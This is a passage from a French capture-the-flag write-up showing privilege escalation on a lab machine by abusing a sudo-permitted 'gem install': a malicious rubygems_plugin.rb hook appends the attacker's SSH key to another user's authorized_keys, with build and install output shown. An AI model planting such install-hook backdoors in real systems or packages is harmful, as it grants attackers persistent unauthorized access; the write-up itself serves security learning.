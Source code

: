 Dans le même dossier on créé un sous-dossier *lib* et on y place deux fichiers. D'abord le script *backdoor.rb* qui contrairement à ce qu'on pourrait penser... ne fait rien.  

```python
class Backdoor
  def self.hi
    puts "Hello world!"
  end
end
```

Mais surtout on y placera le script *rubygems\_plugin.rb* suivant :  

```python
`mkdir -p /home/autumn/.ssh;echo ssh-rsa AAAAB3NzaC1--- snip ---QqQQ7vX devloop@kali >> /home/autumn/.ssh/authorized_keys`
puts "hi thereeeeeeeeeeeeeeeee"

Gem.pre_install do |installer|
    puts "pre hi there"
end

Gem.post_install do |installer|
    puts "post hi there"
end
```

Il est important de générer le *gem* sur la machine distante car sinon on peut voir des messages d'erreur concernant les versions.  

Une fois les fichiers copiés sur la machine on génère et on installe :  

```plain
www-data@rubbish:/tmp/.devloop/backdoor$ ls
backdoor.gemspec  lib
www-data@rubbish:/tmp/.devloop/backdoor$ gem build backdoor.gemspec
  Successfully built RubyGem
  Name: backdoor
  Version: 0.0.1
  File: backdoor-0.0.1.gem
www-data@rubbish:/tmp/.devloop/backdoor$ sudo -u autumn /usr/bin/gem install *.gem --local --no-doc
Successfully installed backdoor-0.0.1
1 gem installed
```

Vous allez me dire *"Hé ! Mais il s'est rien passé !"* :p Oui ! et Non !  

Le fichier *rubygems\_plugin.rb* permet en fait de placer un hook pour la procédure d'installation des gems. Forcément il est juste mis en place à la première installation mais non utilisé.  

On relance l'installation (on pourrait utiliser n'importe quel *gem* à ce stade) :  

```plain
www-data@rubbish:/tmp/.devloop/backdoor$ sudo -u autumn /usr/bin/gem install *.gem --local --no-doc
hi thereeeeeeeeeeeeeeeee
pre hi there
post hi there
Successfully installed backdoor-0.0.1
1 gem installed
```
